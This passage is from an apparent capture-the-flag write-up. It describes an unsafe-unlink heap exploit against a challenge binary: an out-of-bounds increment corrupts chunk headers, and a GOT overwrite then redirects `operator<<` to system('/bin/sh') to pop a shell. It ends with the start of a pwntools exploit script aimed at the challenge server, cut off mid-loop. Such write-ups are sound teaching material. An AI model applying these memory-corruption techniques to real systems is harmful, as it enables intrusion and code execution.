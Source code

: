 From here, I used one of my favorite heap exploits, unsafe unlink!

This is how:

* Setup the parent array so that the first 6 double words are how you would setup a unsafe unlink attack
* Allocated some chunks after adj_matrix using the queue
* Use the OOB increment to change the header of the chunks so that the prev inuse bit is 0, the size is larger than 0x410 (so no tcache issues), and set the prev_size too. Oh you also need to set the size so that it passes any house of spirit checks, I'll leave that as an exercise.
* Unlink!

This is actually tough, and it required me to restructure my exploit a couple times. Anything can break at any point.

### Final step
Parent array now points to 3 double words before itself. Using the parent array itself, we can change it so that it points to the got. From there, we can leak any glibc value in the got. To pop a shell, we can use the parent array yet again to change the `operator<<` function to system, and change the first double word in cout struct (also in bss btw) to /bin/sh. The next call to `operator<<` will pop a shell!

Full exploit:

```py
#!/usr/bin/python3
from pwn import *

p = remote("challs.ctf.sekai.team", 4004)

p.sendline("100")

# Setup parent array
p.sendline(b"""256 6
0 33
33 8
0 17
17 9
0 1
1 10
0 255""")

p.sendline(b"""256 12
0 192
192 16
0 115
115 17
0 64
64 18
0 200
200 24
0 115
115 25
0 64
64 26
0 255""")

# Allocate a bunch of chunks
for j in range(48, 48+8):
    to_send = """256 207
    """
    for i in range(48, j):
        to_send += """{} {}
        """.format(j, i)
    for i in range(j+1, 256):
        to_send += """{} {}
```